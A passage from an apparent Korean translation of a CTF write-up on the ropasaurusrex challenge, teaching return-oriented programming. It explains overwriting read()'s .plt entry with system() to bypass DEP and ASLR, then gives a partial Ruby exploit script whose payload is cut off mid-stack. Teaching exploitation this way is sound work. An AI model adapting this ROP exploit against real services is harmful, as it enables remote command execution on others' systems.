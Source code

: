 
`read()`는 사실 간접적인 점프로 구현되어 있습니다! 그러니 `ds:0x804961c`의 값이
무엇이든 이걸 바꿔도 그리로 점프하게 되고, 결국 우린 어디로든 점프할 수 있게
됩니다! 그래서 프레임 [3]에서 `read()`의 실제 주소를 얻기 위해 메모리로부터
주소를 읽고, 프레임 [5]에서 그 주소에 새 주소를 쓰는 것입니다.


프레임 [6]은 일반적인 `pop/pop/pop/ret` 구조지만 약간 다릅니다.
`pop/pop/pop/ret`의 반환 주소가 실제론 `read()`의 `.plt` 엔트리인
`0x804832c`입니다. `read()`의 `.plt` 엔트리를 `system()`으로 덮어쓰기 때문에, 이
호출은 실제로 `system()`으로 가게 됩니다!



## 최종 코드
{: #final-code}


휴! 꽤 복잡했죠. DEP와 ASLR을 모두 우회하며 ropasaurusrex의 취약점 공격을 모두
구현한 코드입니다.

``` ruby
require 'socket'

s = TCPSocket.new("localhost", 4444)

# The command we'll run
cmd = ARGV[0] + "\0"

# From objdump -x
buf = 0x08049530

# From objdump -D ./ropasaurusrex | grep read
read_addr = 0x0804832C
# From objdump -D ./ropasaurusrex | grep write
write_addr = 0x0804830C
# From gdb, "x/x system"
system_addr = 0xb7ec2450
# Fram objdump, "pop/pop/pop/ret"
pppr_addr = 0x080484b6

# The location where read()'s .plt entry is
read_addr_ptr = 0x0804961c

# The difference between read() and system()
# Calculated as  read (0xb7f48110) - system (0xb7ec2450)
# Note: This is the one number that needs to be calculated using the
# target version of libc rather than my own!
read_system_diff = 0x85cc0

# Generate the payload
payload = "A"*140 +
  [
    # system()'s stack frame
    buf,         # writable memory (cmd buf)
    0x44444444,  # system()'s return address

    # pop/pop/pop/ret's stack frame
    # Note that this calls read_addr, which is overwritten by a pointer
    # to system() in the previous stack frame
    read_addr,   # (this will become system())

    # second read()'s stack frame
    # This reads the address of system() from the socket and overwrites
    # read()'s .plt entry with it, so calls to read() end up going to
    # system()
    4,           # length of an address
```

[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump